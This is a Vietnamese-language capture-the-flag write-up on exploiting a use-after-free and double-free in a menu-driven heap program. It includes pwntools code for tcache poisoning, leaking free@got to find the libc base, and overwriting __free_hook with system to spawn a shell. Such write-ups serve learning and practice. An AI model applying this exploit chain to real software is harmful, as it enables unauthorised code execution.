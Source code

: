 **1. Tìm lỗi**

Sau khi pwninint thì thấy phiên bản libc là 2.2 -> tcache được bật và nó không gây ra lỗi khi Double Free

Dùng IDA dịch thì thấy hàm getFlag ở lựa chọn 1:

![getFlag.png](photo/getFlag.png)

![free.png](photo/free.png)

Tiếp tục đọc source thì thấy ở lựa chọn 6 và 7 đều free nhưng không loại bỏ con troe đến đoạn giải phóng -> Use after free

![var.png](photo/var.png)

Chương tình có 2 biến chứa con trỏ đến đoạn malloc(0x10). Với lỗi Use after free thì có thể in giá trị một đoạn được giải phóng và lạm dụng danh sách liên kết tcache bằng cách chỉnh sửa con trỏ chuyển tiếp

**2. Ý tưởng**

Với lựa chọn 1 thì sẽ in thông tin admin. Với lỗi Use After Free và Double Free chúng ta cần cho user và admin trỏ đến cùng 1 đoạn, sau đó ghi đè lên ptr với biến user thông qua địa chỉ getFlag

**3. Khai thác**

Đầu tiên viết 7 hàm cho 7 lựa chọn trong chương trình như sau:

```
def newAdmin():
    r.sendlineafter(b'Choice: ', b'1')

def newUser(name):
    r.sendlineafter(b'Choice: ', b'2')
    r.sendafter(b'What is your name: ', name)

def printAdmin():
    r.sendlineafter(b'Choice: ', b'3')
    
def editStudent(name):
    r.sendlineafter(b'Choice: ', b'4')
    r.sendafter(b'What is your name: ', name)
    
def printStudent():
    r.sendlineafter(b'Choice: ', b'5')
    return r.recvline()

def deleteAdmin():
    r.sendlineafter(b'Choice: ', b'6')


def deleteUser():
    r.sendlineafter(b'Choice: ', b'7')
```

Tiếp theo sẽ tận dụng danh sách liên kết tcache để làm cho admin và user cùng trỏ đến cùng 1 doạn

```
newUser(b'0'*8)
deleteUser()
newAdmin()
```

Việc bây giờ là lấy địa chỉ hàm getFlag đưa vào biến User và thực hiện lựa chọn printAdmin vì bây giờ admin và user cùng trỏ đến một giá trị

```
getFlag = 0x40084a
editStudent(p64(0) + p64(getFlag))
print(printAdmin())
```

**4. Lấy cờ**

![fake.png](photo/fake.png)

Ý tưởng này đã thất bại khi file flag.txt không phải là nơi chứa flag

**2.1 Ý tưởng thứ 2**

Tận dụng danh sách liên kết tcache bằng cách Double Free user sau đó Use after free để ghi đè con trỏ chuyển tiếp bằng free@got

```
newUser(b'AuDuc')
deleteUser()
deleteUser()
```

Có địa chỉ free@got như sau:

![free_got.png](photo/free_got.png)

Sau đó chúng ta malloc 2 khối admin (để thiết lập lại tcache) và user(để rò rỉ địa chỉ)

```
newAdmin()
newUser(b'A')
free_addr = printStudent().split(b'name is ')[1][1:-1]
```

![free1.png](photo/free1.2png)

![free2.png](photo/free2.png)

Ta thấy địa chỉ leak ra thiếu byte x50 cuối nên sẽ thêm vào

```
free_addr = u64(b'\x50' + free_addr + b'\x00\x00')
```

Sau khi leak được địa chỉ của free thì bằng những câu lệnh sau sẽ leak được địa chỉ libc base:

```
libc.address = free_addr - libc.sym['free']
print('Libc base: ', hex(libc.address))
```

Kết quả được

![libc.png](photo/libc.png)

Tiếp theo sẽ chỉnh sửa free@got

```
editStudent(p64(libc.sym['free']))
```

Sau khi ghi đè con trỏ phía trước vào đoạn free@got và malloc2, tcache hiểu nhầm địa chỉ trước đó là free_leak là kích thước để sử dụng sau:

![bins.png](photo/bins.png)

Tiếp theo sẽ free admin địa chỉ bộ nhớ tcache là chính xác: ```deleteAdmin()```

![bins1.png](photo/bins1.png)

Nhưng ở đây địa chỉ bộ nhớ tcache chưa được chính xác nên tạo user và Double free

```
newUser(b'A'*8)
deleteUser()
deleteUser()
```

![bins2.png](photo/bins2.png)

Và ở đây địa chỉ tcache đã chính xác

Tiếp theo ghi đè lên forward poiter địa chỉ __free_hook: ```editStudent(p64(libc.sym['__free_hook']))```

Tiếp theo là ghi vào tcache địa chỉ system:

```
newUser(b'A'*8)
newUser(p64(libc.sym['system']))
```
Lưu ý: Free sẽ kiểm tra xem __free_hook có trống không nếu không thì thực hiện chức năng bên trong

Tạo thêm chunk với giá trị /bin/sh: ```newUser(b'/bin/sh\x00')```

Việc còn lại là free để thực hiện shell

**4.1 Lấy flag lần 2**

![flag.png](photo/flag.png)
